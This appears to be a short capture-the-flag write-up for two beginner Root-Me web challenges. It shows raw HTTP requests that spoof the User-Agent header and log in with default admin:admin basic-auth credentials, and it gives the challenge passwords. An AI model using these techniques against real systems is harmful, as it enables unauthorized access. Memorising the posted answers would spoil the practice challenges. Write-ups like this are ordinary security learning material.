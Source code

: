 ```yaml
---
title: RootMe WebServer 04-12
date: 2023-11-10
categories: [RootMe, WebServer]
tags: [RootMe, RootMe - WebServer, WriteUp]
author: barabulkit
---
```


# HTTP - User-agent

in this one we just need to modify user agent
```http
GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

and we will get password `rr$Li9%L34qd1AAe27`

# Weak password

there is a page with basic auth, solved by just trying default creds `admin:admin`
```http
GET /web-serveur/ch3/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
```

this is the response i got
```html
<html>
  <head>
  </head>

  <body>
    <div>
      <br/>
      <h3>Bien joué, vous pouvez utiliser ce mot de passe pour valider le challenge</h3>
      <br/><br/>
      <h3>Well done, you can use this password to validate the challenge</h3>
    </div>
  </body>
</html>
```
so the flag to validate challenge is `admin`
